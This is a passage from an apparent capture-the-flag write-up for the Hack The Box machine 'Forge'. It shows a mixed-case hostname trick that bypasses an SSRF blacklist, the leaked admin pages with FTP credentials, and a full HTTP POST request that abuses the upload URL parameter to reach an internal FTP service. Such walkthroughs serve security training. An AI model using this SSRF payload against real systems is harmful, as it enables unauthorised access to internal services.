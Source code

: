 We can easily bypass the blacklist by entering *http://**A**dmin.**F**orge.htb* as an url.

If you look at this request other than in a browser (in my case I am using *Burp*) you are able to see the site as html markup. Within this response you can discover different other paths.

```bash
<!DOCTYPE html>
<html>
<head>
	<title>Admin Portal</title>
</head>
<body>
	<link rel="stylesheet" type="text/css" href="/static/css/main.css">
	<header>
		<nav>
		<h1 class=""><a href="/">Portal home</a></h1>
		<h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
		<h1 class="align-right"><a href="/upload">Upload image</a></h1>
		</nav>
	</header>
	<br><br><br><br>
	<br><br><br><br>
	<center><h1>Welcome Admins!</h1></center>
</body>
</html>
```

Finally looking at */announcments* we can discover credentials and some instructions:

```bash
An internal ftp server has been setup with credentials as user:heightofsecurity123!
The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.
The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=<url>.
```

# Initial foothold
So next up the path is quite clear. We can access the internal *ftp* service, which was filtered in the nmap scan using the vulnerability in the main web application.

## Exploit path

```bash
POST /upload HTTP/1.1
Host: forge.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: http://forge.htb
Connection: close
Referer: http://forge.htb/upload
Upgrade-Insecure-Requests: 1

url=http://Admin.Forge.htb/upload?u=ftp://user:heightofsecurity123!@Admin.Forge.htb&remote=1
```
